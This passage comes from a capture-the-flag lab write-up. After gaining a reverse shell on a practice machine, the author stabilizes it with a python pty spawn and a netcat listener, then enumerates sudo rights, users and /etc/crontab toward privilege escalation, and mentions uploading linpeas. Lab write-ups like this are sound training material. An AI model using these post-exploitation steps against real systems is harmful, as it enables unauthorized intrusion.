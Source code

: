 **We are in.**
-- -
## Stabilize shell.
Now we have shell but it is not stable meaning if we press ctr+c the shell will lost then here are some of the steps.

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
batman@owaspQuiz:/$ 
batman@owaspQuiz:/$ export TERM=xterm-256color

alias ll='ls -lsaht --color=auto'export TERM=xterm-256color
batman@owaspQuiz:/$ 
batman@owaspQuiz:/$ ^Z
zsh: suspended  nc -nvlp 4444
                                                                                   
┌──(gemstone㉿kali)-[~/C7F5/thm/chain]
└─$ stty raw -echo;fg;reset                                                                                                                                                         148 ⨯ 1 ⚙
[1]  + continued  nc -nvlp 4444

batman@owaspQuiz:/$ 
batman@owaspQuiz:/$ 
batman@owaspQuiz:/$ 
```
Then we are good now and  We can continue with privilege escalation.

Check `whoami` with which commands we can run with `sudo -l`.

![](https://i.imgur.com/QNu61Ca.png)

Then we can not view because the batman requires password and we don't have.

Then we will check some other interesting files including flags.

![](https://i.imgur.com/YtO4vsr.png)

After listing some folders we discovered that they are two users in our machine user `batman` and user `munojr`

On munojr home's directory there is our first flag then we will try to read it.
![](https://i.imgur.com/pHEL629.png)

We can not read the file then lets check the cron jobs.
>[!INFO]
>After uploading linpease there is interesting  writable entry in /ect/crontab
-- -

# User privilege escalation.
```bash
batman@owaspQuiz:/home/munojr$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
```